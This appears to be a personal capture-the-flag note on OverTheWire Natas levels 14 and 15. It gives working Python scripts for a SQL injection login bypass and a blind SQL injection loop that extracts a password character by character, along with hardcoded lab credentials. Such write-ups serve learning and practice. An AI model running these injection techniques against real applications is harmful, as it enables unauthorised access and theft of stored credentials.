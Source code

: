
2024-07-18 20:49

Source:  #natas #web #py 

Tags: [[Injection]]
## Natas 14  ->  Basic SQL injection 

```
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15  ->  Blind SQL Injection 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive
- we loop through all the characters for every position of the password [[BlindSQL]]

```
import requests
import string
characters = string.ascii_letters + "0123456789"  

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()  #initialze the empty seen password list

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))
        
        #example. if `hWs%` returns as user exists then the password starts with `hWs....` 

        content = response.text   #crucial step to log the response.text in a variable as we will further check the "user exists" string and determine if the character is a part of the password or not 
        
        if "user exists" in content:
            seen.append(ch)
            break #break out of the for loop and start again 
```

### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12